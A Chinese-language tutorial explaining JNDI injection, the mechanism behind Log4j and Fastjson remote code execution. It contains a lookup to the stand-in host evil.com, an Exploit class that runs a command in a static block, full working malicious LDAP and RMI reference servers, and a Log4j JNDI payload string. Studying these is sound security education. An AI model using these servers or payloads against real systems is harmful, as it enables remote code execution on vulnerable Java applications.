

JNDI 全称是 Java Naming and Directory Interface，可以理解成 Java 提供的一套“按名字找对象”的接口。程序不需要关心对象到底放在 LDAP、RMI 还是别的目录服务里，只需要调用 `lookup()`，剩下的解析工作交给 JNDI 去做。

在漏洞分析里，JNDI 经常和下面两个方法一起出现：

- `bind()`：把名字和对象绑定起来
- `lookup()`：按名字把对象取回来

像 Log4j 这种漏洞，本质上就是把用户可控的内容直接塞进了 `lookup()`，结果程序会去访问攻击者控制的远程地址。

***

## 一、JNDI 这条链到底做了什么

先把最核心的过程放在前面：



很多人第一次接触 JNDI 会把“查目录”和“远程类加载”混在一起。其实它们是连在一起的两步：

1. 先查到一个对象引用
2. 再根据这个引用决定要不要去远程加载类

## 二、JNDI 远程加载对象的几个阶段

### 2.1 客户端先发起 lookup

```java
Context ctx = new InitialContext();
Object obj = ctx.lookup("ldap://evil.com:1389/Exploit");
```

这一步只是发出 JNDI 查询。程序此时只是去问：

> `ldap://evil.com:1389/Exploit` 这个名字对应的到底是什么？

这个阶段里，还没有真正加载远程类。

### 2.2 目录服务返回 Reference

以常见的 `LDAPRefServer` 为例，服务端会构造一条 LDAP 返回结果，把几个关键属性塞进去：

```java
protected void sendResult(..., Entry e) {
    URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
    e.addAttribute("javaCodeBase", cbstring);
    e.addAttribute("objectClass", "javaNamingReference");
    e.addAttribute("javaFactory", this.codebase.getRef());
    result.sendSearchEntry(e);
}
```

客户端收到这条 LDAP 结果后，会把它翻译成 `javax.naming.Reference` 对象。

这里的重点不是“对象已经拿到了”，而是：**客户端拿到的是一个引用信息，而不是最终对象本体。**

### 2.3 JNDI 开始解析 Reference

服务端返回的内容，常见有两种：

| 返回内容 | 含义 | 风险 |
| --- | --- | --- |
| 序列化对象 | 直接返回一个 Java 对象，客户端会去反序列化 | 高危 |
| Reference | 返回类名、工厂类、codebase 等引用信息 | Log4j 常见利用方式 |

如果拿到的是 `Reference`，客户端会构造出类似这样的对象：

```java
public class Reference {
    private String className;
    private String factory;
    private String classFactory;
    private List<RefAddr> addresses;
}
```

这里最关键的几项信息通常是：

- 要加载的类名
- 类的工厂名
- codebase 地址，也就是远程下载位置

### 2.4 根据 Reference 去远程加载类

拿到 `Reference` 之后，JNDI 会继续往下做解析和加载。简化成伪代码，大概是这样：

```java
if (response instanceof Reference) {
    Reference ref = (Reference) response;
    String className = ref.getClassName();
    String codebase = ref.getFactoryLocation();

    ClassLoader loader = getContextClassLoader();
    Class<?> clazz = loader.loadClass(className);
}
```

可以把这个阶段理解成三件事：

1. 从 `Reference` 里取出类名和远程地址
2. 按照远程地址把 `.class` 文件下载回来
3. 交给 `ClassLoader` 去加载

### 2.5 类加载后会发生什么

当 JVM 决定加载 `Exploit` 这个类时，就进入了普通的 Java 类加载流程：

1. 找到合适的 `ClassLoader`
2. 通过 `defineClass` 把字节码变成 `Class<?>`
3. 执行类初始化，也就是 `<clinit>`

如果恶意类里有静态代码块，那么类一初始化就会执行：

```java
public class Exploit {
    static {
        Runtime.getRuntime().exec("calc");
    }
}
```

这也是为什么很多 JNDI 利用 PoC 都把恶意逻辑写在 `static {}` 里。

## 三、为什么后来不太容易直接打通了

JNDI 最经典的利用方式，是让客户端根据 `Reference` 里的 codebase 去远程下载类。

后来的修复重点，基本都卡在这一步。

例如现在常见的 JDK 配置里：

- `com.sun.jndi.rmi.object.trustURLCodebase=false`
- `com.sun.jndi.ldap.object.trustURLCodebase=false`

意思就是：**即使前面的 lookup 还会发生，后面也不再默认信任远程 codebase。**

可以把它理解成：

- 以前：lookup → 拿到 Reference → 下载远程类 → 执行
- 现在：lookup 可能还在，但下载远程类这一步被卡住了

## 四、LDAP 服务端长什么样

下面这段 `LDAPRefServer` 代码，本质上就是自己起一个 LDAP 服务，然后在收到查询时，手工伪造返回结果：

```java
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class LDAPRefServer {

    private static final String LDAP_BASE = "dc=example,dc=com";
    private static final String EXPLOIT_CLASS_URL = "http://127.0.0.1:80/#Exploit";

    public static void main(String[] args) {
        int port = 7912;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(EXPLOIT_CLASS_URL)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor(URL cb) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            } catch (Exception e1) {
                e1.printStackTrace();
            }
        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Calc");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if (refPos > 0) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

它做的事情很简单：

- 监听 LDAP 端口
- 接收客户端的查询
- 返回一个伪造的 `Reference`
- 告诉客户端去指定的 HTTP 地址下载类

## 五、客户端实际会怎么处理

客户端收到 LDAP 响应后，内部逻辑大致可以理解成下面这样：

```java
if (entry.hasAttribute("objectClass", "javaNamingReference")) {
    Reference ref = new Reference(
        entry.getAttribute("javaClassName").getValue(),
        entry.getAttribute("javaFactory").getValue(),
        entry.getAttribute("javaCodeBase").getValue()
    );

    Class<?> clazz = loadClassFromURL(ref);
    clazz.newInstance();
}
```

这里最值得注意的是：客户端并不是“读完 LDAP 就结束”，而是会继续拿着这些属性去做类加载。

## 六、RMI 版本又是什么样

前面说的是 LDAP，RMI 版本的思路其实差不多，也是返回一个 `Reference`，只是承载它的服务换成了 RMI Registry。

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RmiRefServer {

    private static final String CODEBASE = "http://127.0.0.1:80/";
    private static final int RMI_PORT = 1099;
    private static final String BIND_NAME = "Exploit";

    public static void main(String[] args) throws RemoteException, NamingException {
        Reference ref = new Reference(BIND_NAME, BIND_NAME, CODEBASE);
        ReferenceWrapper wrapper = new ReferenceWrapper(ref);
        Registry registry = LocateRegistry.createRegistry(RMI_PORT);
        registry.rebind(BIND_NAME, wrapper);
        System.out.println("RMI Registry listening on 0.0.0.0:" + RMI_PORT);
        System.out.println("Bound Reference: class=" + BIND_NAME + " codebase=" + CODEBASE);
        System.out.println("Log4j payload example: ${jndi:rmi://127.0.0.1:" + RMI_PORT + "/" + BIND_NAME + "}");
    }
}
```

RMI 这里不需要像 LDAP 那样专门去拦截和伪造搜索结果，因为 **RMI Registry 本身就可以直接存储和返回已经绑定好的 `ReferenceWrapper`。**

## 七、把它和 Log4j / Fastjson 放在一起看

前面几篇里已经练过 Fastjson 和 Log4j，它们最后都能碰到 JNDI，区别主要在“怎么把用户输入送进 `lookup()`”。

- **Log4j**：`${jndi:ldap://...}` 这种表达式被直接解析
- **Fastjson**：危险类在反序列化过程中调用了 `lookup()`
- **JNDI**：负责把名字解析成对象、引用，再继续决定是否远程加载类

所以 JNDI 更像是中间那层基础设施。很多漏洞最后能不能打成，关键就在于：

1. 程序会不会调用到 `lookup()`
2. 目录服务返回的是什么
3. 当前 JDK / 配置还允不允许继续远程加载类
